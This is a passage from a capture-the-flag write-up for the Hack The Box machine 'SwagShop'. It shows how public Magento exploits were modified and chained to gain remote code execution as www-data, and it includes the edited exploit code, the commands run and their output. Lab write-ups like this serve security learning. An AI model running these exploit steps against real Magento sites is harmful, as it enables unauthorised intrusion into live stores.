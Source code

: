     :::python
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml


Then we launch the script:

    :::bash
    python sploi.py http://10.10.10.140/index.php/admin "uname -a"
    Traceback (most recent call last):
      File "37811.py", line 69, in <module>
        tunnel = tunnel.group(1)
        AttributeError: 'NoneType' object has no attribute 'group'


The error is because in the last 7 days there were no sales. We can change
this parameter in the exploit code (we put 2 years to be safe):

    :::python
    #request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
    request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)
    tunnel = re.search("src=\"(.*)\?ga=", request.read())
    tunnel = tunnel.group(1)

We relaunch the script:

    :::bash
    python sploi.py http://10.10.10.140/index.php/admin "uname -a"
    Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    python sploi.py http://10.10.10.140/index.php/admin "whoami"
    www-data

We get a remote code execution. From there we can get a reverse shell or do
everything only with the RCE. I struggle a bit with the reverse shell before
finding the right one. Therefore I will start with the RCE only exploitation.

### The RCE way

As the box is often reset by other players we chain the two exploit in a bash
script.

    :::bash
    python 37977.py
    python sploi.py http://10.10.10.140/index.php/admin "whoami"

_Fron now on I will only write the command of the second script ("whoami" in the
exemple above) and make more than one command by duplicating the line._

We want to get the user flag. In HTB's VM there is always a user flag in
/home/<some user>/user.txt and a root flag in /root/root.txt (at least on the
Linux One). So we look at the user directory:

    :::text
    ls /home/
    haris
